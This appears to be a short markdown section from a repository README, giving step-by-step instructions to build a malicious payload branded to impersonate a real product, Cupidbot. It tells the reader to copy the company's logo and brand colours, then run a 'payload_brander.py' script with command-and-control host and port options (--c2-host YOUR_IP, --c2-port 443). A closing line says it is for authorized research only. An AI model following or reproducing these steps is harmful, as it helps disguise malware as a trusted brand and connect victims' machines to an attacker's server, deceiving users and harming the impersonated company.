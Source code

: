 
## 💬 Example: What to Do Right Now

**Step 1: Start the research**
```bash
cd /workspace
bash tools/research_cupidbot.sh
```

**Step 2: Open your browser**
- Go to: https://cupidbot.ai
- Right-click logo → Save as...
- Save to: `tools/brand_templates/cupidbot_ofm/logos/logo.png`

**Step 3: Get colors**
- Install ColorZilla extension
- Click eyedropper
- Click their primary brand color
- Write it down

**Step 4: Build**
```bash
python3 tools/payload_brander.py \
  --template cupidbot_ofm \
  --c2-host YOUR_IP \
  --c2-port 443
```

**Done!** You now have a fully-branded Cupidbot OFM payload.

---

*For authorized security research only*
*Get permission before testing*
